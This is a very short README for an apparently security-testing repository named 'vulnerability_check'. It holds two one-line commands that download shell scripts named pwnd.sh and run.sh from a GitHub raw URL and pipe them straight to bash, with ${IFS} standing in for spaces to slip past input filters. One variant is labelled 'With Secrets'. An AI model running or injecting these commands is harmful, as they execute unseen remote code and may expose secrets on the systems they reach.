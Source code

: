 # vulnerability_check
Vulnerability Check repository


Without Secrets : `` `curl${IFS}-L${IFS}raw.githubusercontent.com/rui-costa/pwnd/main/pwnd.sh|bash` ``

With Secrets : `` `curl${IFS}-L${IFS}raw.githubusercontent.com/rui-costa/pwnd/main/run.sh|bash` ``
